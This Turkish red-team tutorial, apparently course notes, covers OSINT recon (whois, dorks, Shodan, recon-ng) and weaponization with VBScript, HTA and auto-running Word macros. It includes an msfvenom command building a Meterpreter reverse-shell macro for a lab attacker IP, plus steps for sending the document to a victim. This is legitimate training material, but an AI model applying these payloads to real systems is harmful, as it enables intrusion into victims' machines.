

# Initial Access (İlk Erişim)

Bu bölümde, hedef sistemle ilk erişim sağlamak için gerekli teknikleri ve perspektifleri göreceğiz.

## Red Team Recon (Kırmızı Takım Keşfi)

### Pasif Keşifler

#### DNS SORGULARI

WHOIS, RFC 3912 spesifikasyonunu izleyen bir istek ve yanıt protokolüdür. Bir WHOIS sunucusu, gelen istekler için TCP bağlantı noktası 43'ü dinler. Domain kayıt kuruluşu (Domain Registrar), kiraladığı domainlerin WHOIS kayıtlarının tutulmasından sorumludur. whois, kaydedilen tüm kayıtları sağlamak için WHOIS sunucusunu sorgulayacaktır. Aşağıdaki örnekte whois'in bize neler sağladığını görebiliriz:

+ Kayıt şirketi WHOIS sunucusu
+ Kayıt şirketi URL'si
+ Kayıt oluşturma tarihi
+ Güncelleme tarihi
+ Kaydeden iletişim bilgileri ve adresi (gizlilik nedeniyle saklanmadığı sürece)
+ Yönetici iletişim bilgileri ve adresi (gizlilik nedeniyle saklanmadığı sürece)
+ Teknik iletişim bilgileri ve adresi (gizlilik nedeniyle saklanmadığı sürece)

Yukarıda da gördüğümüz gibi sadece domain ile pek çok değerli bilgiye ulaşmak mümkün. Whois aramasından sonra şansımız yaver gidebilir ve diğer teknik bilgilerin yanı sıra isimleri, e-posta adreslerini, posta adreslerini ve telefon numaralarını bulabiliriz. Whois sorgusu sonunda söz konusu domain'e ait yetkili isim sunucularını buluyoruz.

DNS sorguları, başta Unix benzeri sistemler olmak üzere sistemlerimizde bulunan birçok farklı araçla yürütülebilmektedir. Unix benzeri sistemlerde, Windows'ta ve macOS'ta bulunan yaygın araçlardan biri nslookup'tır. Aşağıdaki sorguda nslookup'ın domain'e ilişkin A ve AAAA kayıtlarını almak için varsayılan DNS sunucusunu nasıl kullandığını görebiliriz :

Unix benzeri sistemlerde yaygın olarak bulunan diğer bir araç, Domain Information Groper(dig) kısaltması olan dig'dir. dig birçok sorgu seçeneği sunar ve hatta kullanılacak farklı bir DNS sunucusu belirlemenize olanak tanır. Örneğin Cloudflare'in DNS sunucusunu kullanabiliriz: dig @1.1.1.1 google.com

host, DNS kayıtları için DNS sunucularını sorgulamak için başka bir kullanışlı alternatiftir.

Unix benzeri sistemlerle birlikte gelen son araç traceroute veya MS Windows sistemlerinde tracert'tir. Adından da anlaşılacağı üzere paketlerin sistemimizden hedef hosta kadar izlediği rotayı takip eder. Aşağıdaki konsol çıktısı traceroute'un bizi hedef sisteme bağlayan yönlendiricileri (atlamaları) sağladığını gösteriyor. Bazı yönlendiricilerin traceroute tarafından gönderilen paketlere yanıt vermediğini ve bunun sonucunda IP adreslerini göremediğimizi vurgulamakta fayda var; Böyle bir durumu belirtmek için * kullanılır.

Özetle, aşağıdakilere her zaman güvenebiliriz:

+ Whois, WHOIS veritabanını sorgulamak için
+ DNS sunucularını sorgulamak için nslookup, dig veya host

WHOIS veritabanları ve DNS sunucuları kamuya açık bilgileri tutar ve her ikisinin de sorgulanması herhangi bir şüpheli trafik oluşturmaz.

Dahası, sistemimiz ile hedef ana bilgisayar arasındaki atlamaları keşfetmek için Traceroute'a (Linux ve macOS sistemlerinde traceroute ve MS Windows sistemlerinde tracert) güvenebiliriz.

#### GELİŞMİŞ ARAMALAR(DORKING)

Her arama motorunun biraz farklı kuralları ve söz dizimi olabilir. Farklı arama motorlarına özel söz dizimi hakkında bilgi edinmek için ilgili yardım sayfalarını ziyaret etmeniz gerekecektir. Google gibi bazı arama motorları gelişmiş aramalar için bir web arayüzü sağlar: Google Gelişmiş Arama. Diğer zamanlarda, Google Web Aramalarını İyileştirme, DuckDuckGo Arama Sözdizimi ve Bing Gelişmiş Arama Seçenekleri gibi sözdizimini ezbere öğrenmek en iyisidir.

Arama motorları, yeni web sayfalarını ve dosyalarını indekslemek için dünya çapındaki web'i gece gündüz tarar. Bazen bu, gizli bilgilerin indekslenmesine yol açabilir. Gizli bilgilere örnek olarak aşağıdakiler verilebilir:

+ Şirket içi kullanıma yönelik belgeler
+ Kullanıcı adlarını, e-posta adreslerini ve hatta şifreleri içeren gizli e-tablolar
+ Kullanıcı adlarını içeren dosyalar
+ Hassas dizinler
+ Hizmet sürüm numarası (bazıları savunmasız ve yamalanmamış olabilir)
+ Hata mesajları

Gelişmiş Google aramalarını belirli terimlerle birleştirerek hassas bilgiler içeren belgeler veya savunmasız web sunucuları bulunabilir. Google Hacking Database (GHDB) gibi web siteleri bu tür arama terimlerini toplar ve kamuya açıktır. Müşterimizin arama motorları aracılığıyla açığa çıkan gizli bilgileri olup olmadığını görmek için bazı GHDB sorgularına göz atalım. GHDB aşağıdaki kategoriler altında sorgular içerir:

+ Dayanak yerleri
     GHDB-ID: 6364'ü, Nginx günlüklerini keşfetmek için intitle:"index of" "nginx.log" sorgusunu kullandığı ve kötüye kullanılabilen sunucu yanlış yapılandırmalarını ortaya çıkarabileceği için düşünün.
+ Kullanıcı Adlarını İçeren Dosyalar
     Örneğin, GHDB-ID: 7047, ilginç bilgiler sızdıran dosyaları keşfetmek için intitle:"index of" "contacts.txt" arama terimini kullanır.
+ Hassas Dizinler
     Örneğin, özel bir RSA anahtarının açığa çıkıp çıkmadığını öğrenmek için inurl:/certs/server.key arama terimini kullanan GHDB-ID: 6768'i düşünün.
+ Web Sunucusu Tespiti
     "GlassFish Sunucusu - Sunucu Çalışıyor" sorgusunu kullanarak GlassFish Sunucusu bilgilerini algılayan GHDB-ID: 6876'yı göz önünde bulundurun.
+ Savunmasız Dosyalar
     Örneğin, GHDB-ID: 7786 tarafından sağlanan intitle:"index of" "*.php" sorgusunu kullanarak PHP dosyalarını bulmayı deneyebiliriz.
+ Savunmasız Sunucular
     Örneğin, SolarWinds Orion web konsollarını keşfetmek için GHDB-ID: 6728, intext:"kullanıcı adı" intext:"orion core" -solarwinds.com sorgusunu kullanır.
+ Hata mesajları
     Hata mesajlarından pek çok yararlı bilgi çıkarılabilir. Bir örnek, hatalarla ilgili günlük dosyalarını bulmak için intitle:"index of" error.log sorgusunu kullanan GHDB-ID: 5963'tür.

Sorgular, ölçütlere uyan ve dizine eklenen tüm web sunucularından sonuçlar döndüreceğinden, bu Google sorgularını ihtiyaçlarınıza uyacak şekilde uyarlamanız gerekebilir. Yasal sorunlardan kaçınmak için, yasal sözleşmenizin kapsamı dışındaki dosyalara erişimden kaçınmak en iyisidir.

+ Sosyal Medya Faktörü

Sosyal medya siteleri sadece kişisel kullanım için değil kurumsal kullanım için de oldukça popüler hale geldi. Bazı sosyal medya platformları hedef hakkında tonlarca bilgiyi ortaya çıkarabilir. Pek çok kullanıcının kendileri ve çalışmaları hakkındaki ayrıntıları gereğinden fazla paylaşma eğiliminde olması nedeniyle bu özellikle doğrudur. Birkaçını saymak gerekirse aşağıdakileri kontrol etmekte fayda var:

     LinkedIn
     Twitter
     Facebook
     Instagram

Sosyal medya web siteleri belirli bir şirketin çalışanlarının adlarını toplamayı kolaylaştırır; dahası, belirli durumlarda, şifre kurtarma sorularının yanıtlarını ortaya çıkarabilecek veya hedeflenen bir kelime listesine dahil edilecek fikirler edinebilecek belirli bilgi parçalarını öğrenebilirsiniz. Teknik personelin gönderileri bir şirketin sistemleri ve tedarikçileri hakkındaki ayrıntıları ortaya çıkarabilir. Örneğin yakın zamanda Juniper sertifikaları almış bir ağ mühendisi, işvereninin ortamında kullanılan Juniper ağ altyapısından söz edebilir.

+ İş Reklamları

İş ilanları aynı zamanda size bir şirket hakkında da çok şey anlatabilir. Teknik pozisyonlara yönelik iş ilanları, adların ve e-posta adreslerinin ifşa edilmesinin yanı sıra, hedef şirketin sistemleri ve altyapısı hakkında fikir verebilir. Popüler iş ilanları bir ülkeden diğerine farklılık gösterebilir. Müşterinizin reklamlarını yayınlayacağı ülkelerdeki iş ilanı sitelerini kontrol ettiğinizden emin olun. Dahası, herhangi bir açık pozisyon için web sitelerini kontrol etmek ve bunun herhangi bir ilginç bilgi sızdırıp sızdırmadığını görmek her zaman faydalı olacaktır.

Wayback Machine'in, müşterinizin sitesindeki iş açılış sayfasının önceki sürümlerini almanıza yardımcı olabileceğini unutmayın.

#### Özel Arama Motorları

WHOIS ve DNS sorgularından sonra, bize geçmişe yönelik whois sorgularını sağlayan bazı 3.parti servisleri vardır. Kullanımı ücretsiz, gelişmiş DNS hizmetleri sunarlar. Bu web sitelerinden bazıları zengin işlevsellik sunar ve tek bir alanı keşfetmeye ayrılmış eksiksiz bir odaya sahip olabilir. Şimdilik DNS ile ilgili temel hususlara odaklanacağız. Aşağıdakileri dikkate alacağız:

+ ViewDNS.info

ViewDNS.info Ters IP Araması sunar. Başlangıçta her web sunucusu bir veya daha fazla IP adresi kullanırdı; ancak günümüzde paylaşımlı barındırma sunucularına rastlamak yaygındır. Paylaşımlı barındırmada, bir IP adresi farklı alan adlarına sahip birçok farklı web sunucusu arasında paylaşılır. Ters IP araması ile bir alan adından veya bir IP adresinden başlayarak, belirli bir IP adresini/adreslerini kullanarak diğer alan adlarını bulabilirsiniz.

Aşağıdaki şekilde technopat.com tarafından kullanılan IP adreslerini paylaşan diğer sunucuları bulmak için ters IP aramasını kullandık. Bu nedenle IP adresini bilmenin mutlaka tek bir web sitesine yol açmayacağını unutmamak önemlidir.

+ Tehdit İstihbarat Platformu

Tehdit İstihbaratı Platformu, bir alan adı veya IP adresi sağlamanızı gerektirir ve kötü amaçlı yazılım kontrollerinden WHOIS ve DNS sorgularına kadar bir dizi test başlatır. WHOIS ve DNS sonuçları, whois ve dig kullanarak elde edeceğimiz sonuçlara benzer ancak Tehdit İstihbaratı Platformu bunları daha okunabilir ve görsel olarak daha çekici bir şekilde sunar. Raporumuzla elde ettiğimiz ekstra bilgiler var. Örneğin technopat.com'a baktığımızda aşağıdaki şekilde görüldüğü gibi Name Server (NS) kayıtlarının ilgili IPv4 ve IPv6 adreslerine çözümlendiğini görüyoruz.

Öte yandan technopat.com diye arama yaptığımızda aynı IP adresindeki diğer alan adlarının listesine de ulaşabiliyoruz. Aşağıdaki şekilde gördüğümüz sonuç ViewDNS.info kullanarak elde ettiğimiz sonuçlara benzer.

+ Censys

Censys Search, IP adresleri ve domainleri hakkında birçok bilgi sağlayabilir. Bu örnekte mitre.org'un çözümlediği IP adreslerinden birine bakıyoruz. Aradığımız IP adresinin Amazon'a ait olduğu sonucunu rahatlıkla çıkarabiliriz. Diğerlerinin yanı sıra 22, 80 ve 443 numaralı bağlantı noktalarıyla ilgili bilgileri görebiliriz; ancak bu IP adresinin mitre.org dışındaki web sitelerine sunuculuk yapmak için kullanıldığı açıktır. Sözleşmemizin kapsamı dışındaki sistemleri incelemememiz için bu ayrımı yapmak kritik öneme sahiptir.

+ Shodan

Shodan'ı komut satırından düzgün bir şekilde kullanmak için Shodan'da bir hesap oluşturmanız, ardından shodan init API_KEY komutunu kullanarak shodan'ı API anahtarınızı kullanacak şekilde yapılandırmanız gerekir.

Shodan hesabınızın türüne bağlı olarak farklı filtreler kullanabilirsiniz. Shodan ile neler yapabileceğiniz hakkında daha fazla bilgi edinmek için Shodan CLI'ye göz atmanızı öneririz. nslookup technopat.com adresinden aldığımız IP adreslerinden biri hakkında bilgi aramanın basit bir örneğini gösterelim. shodan Host IP_ADDRESS'i kullanarak, aşağıda gösterildiği gibi IP adresinin ve açık portların coğrafi konumunu alabiliriz.

#### Recon-ng Framework

Recon-ng, OSINT çalışmasını otomatikleştirmeye yardımcı olan bir frameworktür. Çeşitli yazarların modüllerini kullanır ve çok sayıda işlevsellik sağlar. Bazı modüllerin çalışması için anahtarlar gerekir; anahtar, modülün ilgili çevrimiçi API'yi sorgulamasına olanak tanır.

Sızma testi ve kırmızı ekip açısından Recon-ng, bir operasyona veya OSINT görevine yardımcı olabilecek çeşitli bilgi parçalarını bulmak için kullanılabilir. Toplanan tüm veriler otomatik olarak çalışma alanınızla ilgili veri tabanına kaydedilir. Örneğin, daha sonra port taraması yapmak üzere host adreslerini keşfedebilir veya phishing saldırıları için iletişim e-posta adreslerini toplayabilirsiniz.

recon-ng komutunu çalıştırarak Recon-ng'yi başlatabilirsiniz. Recon-ng'yi başlatmak size [recon-ng][default] > gibi bir bilgi istemi verecektir. Bu aşamada kullanmak istediğiniz kurulu modülü seçmeniz gerekmektedir. Ancak, eğer recon-ng'yi ilk kez çalıştırıyorsanız, ihtiyacınız olan modül(ler)i kurmanız gerekecektir.

+ Çalışma Alanı Oluşturmak

Araştırmanız için yeni bir çalışma alanı oluşturmak üzere workspaces create CALISMA_ALANI çalıştırın. Örneğin, workspaces create thmredteam, thmredteam adında bir çalışma alanı yaratacaktır.

recon-ng -w CALISMA_ALANI, belirli çalışma alanıyla yeniden bağlantı kurmaya başlar.

+ Veritabanını Doldurmak

Keşifte, tek bir bilgiyle başlayıp onu yeni bilgilere dönüştürüyorsunuz. Örneğin, araştırmanıza bir şirket adıyla başlayabilir ve bunu domainleri, kişileri ve profilleri keşfetmek için kullanabilirsiniz. Daha sonra elde ettiğiniz yeni bilgileri onu daha da dönüştürmek ve hedefiniz hakkında daha fazla bilgi edinmek için kullanırsınız.

Hedefin domaini olan thmredteam.com'u bildiğimiz ve bunu aktif çalışma alanıyla ilgili Recon-ng veritabanına beslemek istediğimiz durumu ele alalım. Veritabanımızdaki tabloların isimlerini kontrol etmek istersek db schema komutunu çalıştırabiliriz.

Domains tablosuna thmredteam.com alan adını eklemek istiyoruz. Bunu db insert domains komutunu kullanarak yapabiliriz.

+ Recon-ng Pazarı(Marketplace)

Bir domainimiz var, dolayısıyla bir sonraki mantıklı adım, domainleri diğer bilgi türlerine dönüştüren bir modül aramak olacaktır. Yeni bir Recon-ng kurulumuyla başladığımızı varsayarsak, pazardan uygun modülleri arayacağız.

Marketplace'i kullanarak modülleri yüklemeden önce, Marketplace kullanımına ilişkin bazı yararlı komutlar şunlardır:

+ Anahtar kelimeyle mevcut modülleri aramak için marketplace search ANAHTAR_KELİME.
+ marketplace info MODUL, söz konusu modül hakkında bilgi sağlamak için kullanılır.
+ Belirtilen modülü Recon-ng'ye yüklemek için marketplace install MODUL kullanılır.
+ Belirtilen modülü kaldırmak için marketplace remove MODUL.

Modüller keşif, içe aktarma, keşif ve raporlama gibi birden fazla kategori altında gruplandırılmıştır. Üstelik recon, dönüşüm türüne bağlı olarak birçok alt kategoriye de ayrılıyor. Mevcut tüm modüllerin bir listesini almak için marketplace search çalıştırın.

Aşağıdaki terminalde domains- içeren modülleri arıyoruz.

domains-companies, domains-contacts ve etki domains-hosts gibi keşif kapsamında birçok alt kategorinin olduğunu fark ediyoruz. Bu isimlendirme bize bu dönüşümden ne tür yeni bilgiler elde edeceğimizi anlatıyor. Örneğin, domains-hosts, modülün sağlanan domainle ilgili hostları bulacağı anlamına gelir.

Whoxy_whois gibi bazı modüller, K sütununun altındaki * işaretinden de anlaşılacağı üzere bir anahtar gerektirir. Bu gereksinim, ilgili hizmeti kullanmak için bir anahtarımız olmadığı sürece bu modülün kullanılamayacağını gösterir.

Diğer modüllerin D sütununun altında * ile gösterilen bağımlılıkları vardır. Bağımlılıklar, ilgili modülü kullanmak için üçüncü taraf Python kitaplıklarının gerekli olabileceğini göstermektedir.

Recon/domains-hosts/google_site_web ile ilgilendiğinizi varsayalım. Belirli bir modül hakkında daha fazla bilgi edinmek için marketplace info MODUL komutunu kullanabilirsiniz; bu modülün ne yaptığını açıklayan önemli bir komuttur. Örneğin, marketplace info google_site_web şu açıklamayı sağlar: "'Site' arama operatörünü kullanarak Google.com'daki hostları toplar. 'hosts' tablosunu sonuçlarla günceller." Yani bu modül Google arama motorunu ve “site” operatörünü kullanacak.

marketplace install MODUL komutu ile istediğimiz modülün kurulumunu gerçekleştirebiliriz, örneğin marketplace install MODUL.

+ Kurulu Modüllerle Çalışmak

Aşağıdakileri kullanarak modüllerle çalışabiliriz:

+ Kurulu tüm modüllerin bir listesini almak için modules search
+ Belirli bir modülü belleğe yüklemek için modules load MODUL

+ Yüklenen modül için ayarlayabileceğimiz seçenekleri listelemek için options list.
+ options set (option) (value) seçeneğin değerini ayarlamak için.

Bir önceki adımda google_site_web modülünü yükledik, o halde onu load google_site_web kullanarak yükleyelim ve run ile çalıştıralım. Zaten thmredteam.com domainini veritabanına ekledik, yani modül çalıştırıldığında veritabanından bu değeri okuyacak, yeni tür bilgiler alacak ve bunları sırasıyla veritabanına ekleyecektir. Komutlar ve sonuçlar aşağıdaki terminal çıktısında gösterilmektedir.

Bu modül Google'ı sorguladı ve cafe.thmredteam.com ve clinic.thmredteam.com olmak üzere iki host keşfetti. Bu adımları ilerlettiğimizde yeni host'lar da ortaya çıkabilir.

+ Anahtarlar (Keys)

Bazı modüller ilgili hizmet API'sine ait anahtar olmadan kullanılamaz. K, söz konusu modülü kullanabilmek için ilgili servis anahtarını vermeniz gerektiğini belirtir.

+ keys list anahtarları listeler
+ keys add KEY_ISMI KEY_DEGERI bir anahtar ekler
+ keys remove KEY_ISMI bir anahtarı kaldırır

Modül setini kurduktan sonra, bunları yüklemeye ve çalıştırmaya devam edebilirsiniz.

+ modules load MODUL kurulu bir modülü yükler
+ CTRL + C modül işleyişini sonlandırır.
+ Yüklenen modülün bilgilerini incelemek için info.
+ options list seçilen modül için mevcut seçenekleri listeler.
+ options set ISIM DEGER
+ Yüklenen modülü çalıştırmak için run.

## Weaponization (Silahlanma)

Bu bölümde silahlanma için kullanılan farklı teknikleri tartışacağız.

Silahlanma, Siber Öldürme Zinciri modelinin ikinci aşamasıdır. Bu aşamada saldırgan, word belgeleri, PDF'ler vb. gibi teslim edilebilir payloadları kullanarak kendi kötü amaçlı kodunu oluşturur ve geliştirir. Silahlanma aşaması, hedef makineden yararlanmak ve ilk erişim elde etmek için kötü niyetli silahı kullanmayı amaçlamaktadır.

Çoğu kuruluşta Windows işletim sistemi çalışıyor ve bu da olası bir hedef olacak. Bir kuruluşun çevre politikası, güvenlik ihlallerini önlemek için genellikle .exe dosyalarının indirilmesini ve yürütülmesini engeller. Bu nedenle kırmızı ekip çalışanları, phishing, sosyal mühendislik, tarayıcı veya yazılımdan yararlanma, USB veya web yöntemleri gibi çeşitli kanallar aracılığıyla gönderilen özel payloadlar oluşturmaya güveniyor.

Aşağıdaki grafik, hazırlanmış özel bir PDF veya Microsoft Office belgesinin kötü amaçlı bir payload sağlamak için kullanıldığı bir silahlanma örneğidir. Özel bir payload, kırmızı ekip altyapısının komuta ve kontrol ortamına tekrar bağlanacak şekilde yapılandırılmıştır.

Kırmızı takım araç kitleri hakkında daha fazla bilgi için: https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development İlk erişim, payload geliştirme, dağıtım yöntemleri ve diğerleri de dahil olmak üzere her şeye sahip bir GitHub reposu.

Çoğu kuruluş, kontrollü ortamlarında .exe dosyalarının yürütülmesini engeller veya izler. Bu nedenle, kırmızı takım çalışanları, yerleşik Windows komut dosyası oluşturma teknolojileri gibi diğer teknikleri kullanarak payloadların yürütülmesine güvenirler. Bu nedenle, bu bölüm aşağıdakiler de dahil olmak üzere çeşitli popüler ve etkili komut dosyası yazma tekniklerine odaklanmaktadır:

+ The Windows Script Host (Windows Komut Dosyası Host'u) (WSH)
+ Bir HTML Uygulaması (HTA)
+ Visual Basic Uygulamaları (VBA)
+ PowerShell (PSH)

### Windows Script Host (WSH)

WSH, işletim sistemindeki görevleri otomatikleştirmek ve yönetmek için toplu dosyaları çalıştıran yerleşik bir Windows yönetim aracıdır.

vbs ve vbe dahil olmak üzere çeşitli Microsoft Visual Basic Komut Dosyalarının (VBScript) yürütülmesinden sorumlu olan cscript.exe (komut satırı komut dosyaları için) ve wscript.exe (UI komut dosyaları için) Windows yerel motorudur. Windows işletim sistemindeki VBScript motorunun, uygulamaları normal bir kullanıcıyla aynı erişim ve izin düzeyinde çalıştırdığını ve yürüttüğünü unutmamak önemlidir; bu nedenle kırmızı takım oyuncuları için faydalıdır.

Şimdi THM'ye Hoş Geldiniz mesajını gösteren bir Windows mesaj kutusu oluşturmak için basit bir VBScript kodu yazalım. Aşağıdaki kodu hello.vbs gibi bir dosyaya kaydettiğinizden emin olun.

    Dim message
    message = "Hello World"
    MsgBox message

İlk satırda Dim kullanarak mesaj değişkenini deklare ettik. Daha sonra mesaj değişkeninde Hello World string değerini saklarız. Bir sonraki satırda değişkenin içeriğini göstermek için MsgBox fonksiyonunu kullanıyoruz. Daha sonra hello.vbs içeriğini çalıştırmak ve yürütmek için wscript'i kullanırız. Sonuç olarak, Hello World mesajını içeren bir Windows mesajı açılacaktır.

Şimdi yürütülebilir dosyaları(.exe)çalıştırmak için VBScript'i kullanalım. Aşağıdaki vbs kodu, Windows hesap makinesini çağırmak içindir; bu, .exe dosyalarını Windows yerel motorunu (WSH) kullanarak çalıştırabileceğimizin kanıtıdır.

    Set shell = WScript.CreateObject("Wscript.Shell")

    shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True

Yürütme payload'ını çağırmak için CreateObject'i kullanarak WScript kütüphanesinin bir nesnesini oluşturuyoruz. Daha sonra payloadı yürütmek için Run metodunu kullanırız. Windows hesap makinesi calc.exe'yi çalıştıracağız.

Vbs dosyasını çalıştırmak için wscript kullanarak aşağıdaki gibi çalıştırabiliriz,

    wscript c:\Users\thm\Desktop\payload.vbs

ya da cscript ile çalıştırabiliriz,

    cscript.exe c:\Users\thm\Desktop\payload.vbs

Sonuç olarak, masaüstümüzde bir hesap makinesi belirir.

Başka bir numara. VBS dosyaları kara listedeyse, dosyayı .txt dosyası olarak yeniden adlandırabilir ve wscript kullanarak çalıştırabiliriz.

### HTML Application (HTA)

HTA, “HTML Uygulaması” anlamına gelir. Nasıl görüntülendiğine ve işlendiğine ilişkin tüm bilgileri alan indirilebilir bir dosya oluşturmanıza olanak tanır. HTA'lar olarak da bilinen HTML Uygulamaları, JScript ve VBScript içeren dinamik HTML sayfalarıdır. LOLBINS (Living-off-the-land Binaries) aracı mshta, HTA dosyalarını yürütmek için kullanılır. Kendi başına veya Internet Explorer'dan otomatik olarak çalıştırılabilir.

Aşağıdaki örnekte, cmd.exe'yi çalıştırmak için PoC olarak payloadımızda bir ActiveXObject kullanacağız. Aşağıdaki HTML kodunu inceleyelim :

     <html>
     <body>
     
     </body>
     </html>

Daha sonra payload.hta'yı bir web sunucusundan servis edelim, bu, saldıran makineden şu şekilde yapılabilir:

     python -m http.server 8080

Kurban makinesinde, Microsoft Edge'i kullanarak http://10.8.232.37:8090/payload.hta adresindeki kötü amaçlı bağlantıyı ziyaret edelim. 10.8.232.37, saldırganın ip adresidir.

Run'a bastığımızda payload.hta yürütülür ve ardından cmd.exe'yi çağırır. Aşağıdaki şekil cmd.exe dosyasını başarıyla çalıştırdığımızı göstermektedir.

Aşağıdaki gibi bir reverse shell payload'ı oluşturabiliriz,

Kurban, bizim oluşturduğumuz payload'ı sistemine indirip çalıştırırsa makinemize bir beacon sağlanacaktır bu beacon'u alabilmek için nc, metasploit gibi toollar kullanabiliriz.

Diğer bir yöntem de, metasploit kullanarak daha etkili bir payload oluşturup güzel bir şekilde servis edebiliriz. Bunun için metapsloitteki exploit/windows/misc/hta_server modülünü kullanacağız.

Eğer kurban verilen linki bir şekilde ziyaret ederse bilgisayarına otomatik olarak .hta dosyası inecektir. Ve eğer kurban bunu çalıştırırsa bir meterpreter session elde edeceğiz.

### Visual Basic for Application (VBA) ve Makrolar

VBA, Microsoft tarafından Microsoft Word, Excel, PowerPoint vb. gibi Microsoft uygulamaları için uygulanan bir programlama dili olan Visual Basic for Applications anlamına gelir. VBA programlama, bir kullanıcı ile Microsoft Office uygulamaları arasındaki neredeyse her klavye ve fare etkileşimindeki görevlerin otomatikleştirilmesine olanak tanır.

Makrolar, Visual Basic for Applications (VBA) olarak bilinen bir programlama dilinde yazılmış gömülü kod içeren Microsoft Office uygulamalarıdır. Otomatik süreçler oluşturarak manuel görevleri hızlandırmak için özel işlevler oluşturmak için kullanılır. VBA'nın özelliklerinden biri Windows Uygulama Programlama Arayüzüne (API) ve diğer düşük seviyeli işlevlere erişimdir.

Bu bölümde VBA'nın temellerini ve saldırganın kötü amaçlı Microsoft belgeleri oluşturmak için makroları kullanma yollarını inceleyeceğiz.

İlk olarak boş bir Word dökümanı oluşturalım.

Ardından View --> Macros diyip yeni bir makro eklemek için Create diyelim.

Önümüze kod yazmamız için yeni bir pencere açılacak. Burada VBA kodları yazabiliriz. Örnek olarak bir mesaj kutusu çıkartmak için aşağıdaki kodları yazalım :

     Sub test_makro()
     MsgBox("Hello world")
     End Sub

Kodun çalışıp çalışmadığından emin olmak için Run diyip testini yapabiliriz. Kaydetmek için CTRL+S yapalım.

Burada kaydetme tipi olarak Word Macro-Enabled Document olarak seçiyoruz ve Kaydet diyoruz.

Kaydettiğimiz bu Word dökümanını açarsak güvenlik önlemi olarak makrolar otomatik olarak devre dışı kalıyor. Bunu ya kullanıcı bilmeden kendisi açar ya da kullanıcı daha önceden açık hale getirmiştir.(Bilemeyiz) Dosyayı açtıktan sonra View --> Macros --> List Macros diyip eklediğimiz makroyu seçip run dersek makromuzun çalıştığını görmüş olacağız.

Fakat kullanıcının bu adımları gerçekleştirmeyeceği çok bariz. Bu yüzden word dökümanı açıldığı anda makronun çalışmasını sağlamak için AutoOpen() ve Document_Open() built-in fonksiyonlarını kullanacağız :

     Sub Document_Open()
     test_macro
     End Sub

     Sub AutoOpen()
     test_macro
     End Sub

     Sub test_macro()
     MsgBox("Hello world")
     End Sub

Kodu yukarıdaki göründüğü gibi değiştirip tekrar kaydettiğimizde dökümanı açar açmaz makromuzun çalıştığını görebiliriz :

Bunu öğrendiğimize göre aşağıdaki gibi bir kod ile Windows'ta bulunan aplikasyonları da çalıştırabiliyoruz :

    Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
    End Sub

Şimdi bunu reverse shell alabilmek için kullanalım :

Msfvenom ile payload'ı oluşturabiliriz :

     msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.84.185 LPORT=4444 -f vba -o payload.vba

Fakat buradaki sorun, payload'ın excel'e göre hazırlanmış olması. Bunu word'e göre hazırlamak için oluşturulan dosyayı(bu durumda payload.vba) bir text editörü ile açıp Workbook_Open()'i Document_Open() şeklinde değiştiriyoruz.

Ardından Word dosyamızı tekrar düzenleyip makronun içine payload.vba'nın içeriğini kopyalıyoruz :

Dosyayı bu şekilde kaydedip kurbana gönderiyoruz. Eğer kurban bu dökümanı açarsa bir reverse shell elde edeceğiz. Bu reverse shell'i metasploitte exploit/multi/handler ile dinliyoruz...

### Powershell (PSH)

Powershell, .NET framework kullanılarak oluşturulan Windows Scripting Dili ve shell ortamıdır.

Bu aynı zamanda Powershell'in .NET işlevlerini doğrudan shellden yürütmesine de olanak tanır. Cmdlet'ler adı verilen çoğu Powershell komutu .NET'te yazılmıştır. Diğer kodlama dilleri ve shell ortamlarından farklı olarak, bu cmdlet'lerin çıktısı nesnelerdir; bu da Powershell'i bir nevi nesne yönelimli kılar.

Bu aynı zamanda cmdlet'leri çalıştırmanın çıktı nesnesi üzerinde eylemler gerçekleştirmenize olanak sağladığı anlamına gelir (bu da çıktının bir cmdlet'ten diğerine aktarılmasını kolaylaştırır). Bir cmdlet'in normal formatı Fiil-İsim kullanılarak temsil edilir; örneğin, komutları listeleyen cmdlet'e Get-Command adı verilir
Kullanılacak yaygın fiiller şunlardır:

+ Get
+ Start
+ Stop
+ Read
+ Write
+ New
+ Out

#### Temel Powershell Komutları

Artık cmdlet'lerin nasıl çalıştığını anladığımıza göre, onları nasıl kullanacağımızı öğrenelim. Burada hatırlamanız gereken en önemli şey Get-Command ve Get-Help'in en iyi arkadaşlarınız olduğudur.

+ Get-Help

Get-Help bir cmdlet hakkındaki bilgileri görüntüler. Belirli bir komutla ilgili yardım almak için aşağıdakileri çalıştırın:

Get-Help Komut-Adı

-examples bayrağını ileterek komutun tam olarak nasıl kullanılacağını da anlayabilirsiniz. Bu, aşağıdaki gibi çıktı döndürür:

+ Get-Command

Get-Command, mevcut Bilgisayarda yüklü olan tüm cmdlet'leri alır. Bu cmdlet'in en güzel tarafı aşağıdaki gibi desen eşleşmesine izin vermesidir.

Get-Command Fiil-* veya Get-Command *-İsim

New fiilinin tüm cmdlet'lerini görüntülemek için Get-Command New-* çalıştırıldığında aşağıdakiler görüntülenir:

+ Obje Manipülasyonu

Önceki bölümde her cmdlet'in çıktısının nasıl bir nesne olduğunu gördük. Çıktıyı değiştirmek istiyorsak birkaç şeyi anlamamız gerekir:

+ çıktıyı diğer cmdlet'lere geçirmek
+ bilgi ayıklamak için belirli nesne cmdlet'lerini kullanma

Pipeline(|), çıktıyı bir cmdlet'ten diğerine geçirmek için kullanılır. Diğer shellerle karşılaştırıldığında en büyük fark, Powershell'in pipe sonrasındaki komuta metin veya dize iletmek yerine bir nesneyi sonraki cmdlet'e geçirmesidir. Nesne yönelimli frameworklerde her nesne gibi, bir nesne de yöntemler ve özellikler içerecektir.

Yöntemleri, cmdlet'in çıktısına uygulanabilecek işlevler olarak düşünebilirsiniz ve özellikleri, bir cmdlet'in çıktısındaki değişkenler olarak düşünebilirsiniz. Bu ayrıntıları görüntülemek için bir cmdlet'in çıktısını Get-Member cmdlet'ine iletin:

Fiil-İsim | Get-Member

Get-Command üyelerini görüntülemek için bunu çalıştırmanın bir örneği:

